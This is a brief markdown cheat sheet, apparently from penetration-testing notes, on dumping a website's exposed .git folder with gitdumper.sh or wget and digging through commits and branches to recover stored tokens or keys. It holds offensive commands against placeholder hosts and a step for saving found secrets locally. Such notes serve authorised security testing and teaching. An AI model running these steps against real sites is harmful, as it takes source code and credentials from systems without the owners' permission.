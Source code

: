 # GIT TOOLS

### Git tools are used when we locate an exposed .git folder that contains an entire repository with possibly sensitive information.

## STEPS:

#### 1) gitdumper.sh http://WHATEVER/.git/ repo

## Alternate method: wget

 - wget -r http://DOMAIN.COM/.git

#### 2) Go to the directory where the .git folder is located

#### 3) /path/to/extractor.sh . App

#### 4) git log (Gets all commits in the repository)

#### 5) git branch -a (Show all branches a repository has)

#### 6) git show COMMIT_NUMBER (See the specific commit in detail)

#### 7) git checkout BRANCH (Switch to another branch)

#### 8) git branch (Check in which branch are we now)

#### 9) git show COMMIT_NUMBER^:FILE.json > token.json (If we found a file/key/token, we can check the filename upon seeing the commit, then we store it locally with this command)
